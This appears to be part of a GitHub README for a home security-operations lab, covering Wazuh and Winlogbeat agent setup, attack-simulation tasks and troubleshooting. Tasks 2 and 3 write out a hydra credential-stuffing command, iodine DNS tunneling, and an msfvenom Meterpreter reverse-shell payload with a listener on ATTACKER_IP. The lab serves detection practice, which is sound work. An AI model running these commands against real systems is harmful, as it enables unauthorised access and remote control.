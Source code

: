 #### 4️⃣ Agent Installation

1.  Install Wazuh agent on Windows targets:

    -   Download from
        > https://packages.wazuh.com/4.x/windows/wazuh-agent-4.5.0-1.msi

    -   During installation, specify manager IP as your Docker host

2.  Configure Winlogbeat on Windows:

    -   Download from https://www.elastic.co/downloads/beats/winlogbeat

    -   Configure winlogbeat.yml with Elasticsearch output

#### 5️⃣ Task Execution

1.  **Task 1**: Run SOC automation script\
    > cd task1\
    > python3 soc_automation.py

2.  **Task 2**: Simulate attacks and verify detection\
    > \# Credential stuffing\
    > hydra -L users.txt -P rockyou.txt TARGET_IP smb\
    > \
    > \# DNS tunneling\
    > iodine -f TARGET_IP example.com

3.  **Task 3**: Execute full APT simulation\
    > \# Generate payload\
    > msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP
    > LPORT=4444 -f exe -o payload.exe\
    > \
    > \# Start listener\
    > msfconsole -q -x \"use exploit/multi/handler; set PAYLOAD
    > windows/meterpreter/reverse_tcp; set LHOST ATTACKER_IP; set LPORT
    > 4444; run\"

#### ⚠️ Troubleshooting Tips

-   **Docker issues**: Ensure sufficient memory allocation in Docker
    > settings

-   **Network connectivity**: Verify all VMs are on the same VirtualBox
    > network (Bridged or Host-only)

-   **Wazuh agent connection**: Check firewall settings on Windows
    > targets

-   **Kibana visualization**: Wait 2-5 minutes for logs to propagate
    > through the stack

## 💡 Key Takeaways and Lessons Learned

1.  **Dual Perspective is Critical**: Understanding both attacker and
    > defender mindsets creates more effective security measures.
    > Knowing how attacks work helps build better detection rules.
